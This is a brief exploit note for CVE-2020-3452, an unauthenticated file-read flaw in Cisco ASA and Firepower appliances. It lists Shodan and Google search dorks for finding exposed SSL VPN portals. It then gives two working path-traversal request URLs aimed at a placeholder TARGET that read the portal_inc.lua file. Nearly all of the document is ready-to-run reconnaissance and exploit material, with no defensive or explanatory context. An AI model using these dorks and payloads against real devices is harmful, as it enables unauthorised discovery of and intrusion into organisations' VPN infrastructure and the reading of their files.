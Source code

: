 # CVE-2020-3452
## Unauthenticated file read in Cisco ASA & Cisco Firepower.

### Tools
```
shodandork : title:"SSL VPN service"
Google : inurl:+CSCOE+/logon.html

```


#### Read "/+CSCOE+/portal_inc.lua" file

- https://TARGET/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
- https://TARGET/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua



